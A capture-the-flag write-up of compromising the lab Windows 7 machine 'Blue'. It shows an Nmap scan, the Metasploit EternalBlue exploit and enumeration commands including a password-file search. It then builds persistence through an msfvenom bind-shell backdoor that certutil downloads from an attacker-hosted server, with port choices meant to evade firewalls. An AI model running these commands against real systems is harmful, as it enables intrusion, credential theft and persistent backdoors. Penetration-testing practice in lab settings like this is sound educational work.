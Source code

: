 # CTF Writeup: Blue (TCM Security)

***Date***:09/20/2024

---
## Table of Contents
- Challenge Description
- Challenge Information
- Reconnaissance and Exploitation
- Lessons Learned

---

## Challenge Description
Enumerate and exploit a Windows 7 machine, and establish persistence. 
## Challenge Information
- **Name:** Blue
- **Category:** Windows 7, Network, Operating System
- **Difficulty:** Easy
- **CTF Platform:** TCM Security

---

## Reconnaissance and Exploitation

To begin, I made sure the machine was alive through a ping. Seeing it was alive, I moved on to an Nmap scan. 
```nmap -sV -A -Pn -p- -O2 192.168.81.133```

The flags seek to determine services on the machine, run available scripts against those machines, disable ping sweep, and scan all ports and not only the common ones. Through this, I found a bunch of services running on the machine. 

![Pasted image 20240920160411](https://github.com/user-attachments/assets/a1f6004f-cbce-41ce-b87c-1a878e59510d)

Below are the results from my Nmap Scan-
```
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-dsS Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
```

From here, I went through Metasploit and the Web through each service to identify exploits. I found a module in Metasploit that performed enumeration on SMB to find which version it is running, scanner/smb/smb_version. I found that SMB was running 1.2, which is vulnerable to EternalBlue, a exploit in Microsoft's implementation of the SMB protocol that was infamously used by the WannaCry ransomware. It allows remote attackers to execute arbitrary code by sending crafted messages to the vulnerable machine's SMBv1 service.
 I decided to go with this one because it is extremely effective against that version of SMB, being an 8.1 CVSS score, and it would allow me to execute code remotely. I searched it up on Metasploit and found an exploit, exploit/windows/smb/ms17_010_eternalblue, and used that. 

I take a look at my options through the show options command. From here, I manage my options:
```
set rhost 192.168.81.133
set rport 445
exploit. 
```
After a couple tries, the script works and I land on a Meterpreter shell. 

![Pasted image 20240920162915](https://github.com/user-attachments/assets/4c8755d6-28da-4bba-94e1-a2c91cdbb926)

From here, I run the commands systeminfo and ipconfig to ensure I am on the correct machine.  Ipconfig will list out the IP address of the machine, while systeminfo will spit out alot of relevant information about the machine, including Architecture, Operation System, Version, and more. One of my favorite one liners, discovered while going through the TCM course, ```systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"```, gives you the meat and potatoes of what you need: OS Name, Version, and the Architecture. 

I run some other enumeration commands, including:
-  `whoami` - Shows the current user or service account you are running as.
- `wmic logicaldisk get caption,description,providername` - Lists out the drives on the system, giving an overview of available file systems.
- `findstr /si password *.txt` - Searches the system for any files containing the word "password" in an attempt to find clear text credentials.


Enumeration is the king of Penetration Testing. You can never have too much information. 
If there was a flag objective, I would move on here to looking around the file system and seeing what things are around. Given the fact the objective is a simple exploit and not a flag, I move on to Persistence. 

If SSH, Telnet, or some other remote access tool was on, I would simply create a new user. However, as these are disabled, I opted to establish a backdoor. I simply used the built-in exploit/windows/local/persistence in my Meterpreter prompt. From here, I simply established my options, which port I preferred, and the type of shell. 

![Pasted image 20240920162915](https://github.com/user-attachments/assets/560881e6-fccc-4ce3-89f8-c9269bcde434)

I then set up a netcat on my own machine to listen for the callback.

![Pasted image 20240920163851](https://github.com/user-attachments/assets/6f8af57f-14e8-459f-8fdf-4f5e69a7cd2d)

Once the machine reboots, it'll reach out to me here and I'll have a shell. 

If Metasploit wasn't available, I have some other options. I could've used a combination of setting up a server and certutil in order to download the shell onto the machine.

First, I would set up a server on my machine using the common python3 library http.server.
```python3 -m http.server 80```

After that, I would create a backdoor using Msfconsole, as so:
```msfvenom -p windows/shell_bind_tcp LHOST=192.168.81.131 LPORT=1231 -f exe > prompt.exe```
I'm using a Stageless Payload because of the fact that in a backdoor you want it all sent at once, rather than a Staged payload, which splits it up. I am also using the non-traditional 1231 port rather than 4444 to hopefully circumvent firewall rules. 4444 is the default port for Metasploit, and any firewall worth its salt would block traffic on that port. By choosing a less common port, I hoped to evade such rules.

From here, as I am now hosting this file, I would go to my RCE Shell and use certutil, a tool commonly exploited to transfer files, to download the prompt.
```certutil -urlcache -split -f "http://192.168.81.131:80/bind.exe" prompt.exe```

I drop from my Meterpreter shell and start the executable. 

![Pasted image 20240920175020](https://github.com/user-attachments/assets/5909f3d5-dc40-4923-ad66-5eb2fe282ae7)

I then Netcat into the machine;

![Pasted image 20240920175601](https://github.com/user-attachments/assets/a8767b71-a610-492b-aa77-d139f8ede27e)

And there you have it! A working backdoor. 
## Lessons Learned
One of the largest mistakes I had was not properly vetting the other services. Once I saw the SMB Vulnerability, I went straight for it without a second thought. I should've gone through the rest of the services and stockpiled a few different exploits before I started trying to get into the box. I also could've used tools like Smbclient on SMB rather than relying on Metasploit. 

Another big pitfall that I had was my notetaking. I was on top of it to begin with but once I exploited the machine and ran post-exploitation I started letting it slack. I shouldn't have had to go back in my machine to pull the screenshots for this Write-Up, as I should've taken them all as the discoveries happened. 

**Key Takeaways:**
- Always conduct thorough reconnaissance and explore multiple service vulnerabilities instead of jumping to the first one discovered.
- Maintain detailed and organized notes throughout the entire process to avoid backtracking.
- Use multiple tools in your enumeration

